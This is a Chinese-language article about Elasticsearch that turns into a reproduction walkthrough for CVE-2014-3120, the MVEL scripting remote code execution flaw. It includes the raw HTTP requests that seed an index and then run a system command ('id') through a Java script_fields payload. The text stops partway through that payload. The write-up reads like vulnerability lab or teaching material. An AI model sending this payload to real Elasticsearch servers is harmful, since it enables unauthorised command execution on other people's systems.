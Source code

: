 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/YcVXeGnbrxhtVXH7VG0PEA)

**Elasticsearch 简介**

Elasticsearch 是一个基于 Lucene 的搜索服务器。它提供了一个分布式多用户能力的全文搜索引擎，基于 RESTful web 接口。Elasticsearch 是用 Java 语言开发的，并作为 Apache 许可条款下的开放源码发布，是一种流行的企业级搜索引擎。  

Elasticsearch 用于云计算中，能够达到实时搜索，稳定，可靠，快速，安装使用方便。官方客户端在 Java、.NET（C#）、PHP、Python、Apache Groovy、Ruby 和许多其他语言中都是可用的。根据 DB-Engines 的排名显示，Elasticsearch 是最受欢迎的企业搜索引擎，其次是 Apache Solr，也是基于 Lucene。由于 Elasticsearch 的功能强大和使用简单，维基百科、卫报、Stack Overflow、GitHub 等都纷纷采用它来做搜索。现在，Elasticsearch 已成为全文搜索领域的主流软件之一。

**ElasticSearch 命令执行漏洞（CVE-2014-3120）**

**漏洞原理：**

老版本 ElasticSearch 支持传入动态脚本（MVEL）来执行一些复杂的操作，而 MVEL 可执行 Java 代码，而且没有防护或者沙盒包装，所以我们可以直接执行任意代码。

**影响版本：**

ElasticSearch 1.2 之前的版本

**漏洞复现：**

首先，该漏洞需要 es 中至少存在一条数据，所以我们需要先创建一条数据

```
POST /website/blog/ HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

{
  "name": "phithon"
}
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDE0dV1xEyw9ZBj4bSUocCOAr69o2FM4VBmrIbN0ICkibdWqjFSIKgMbvLDStRicVsPjaZF9aqRpibLg/640?wx_fmt=png)

然后，执行任意代码

```
POST /_search?pretty HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 343


{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"
```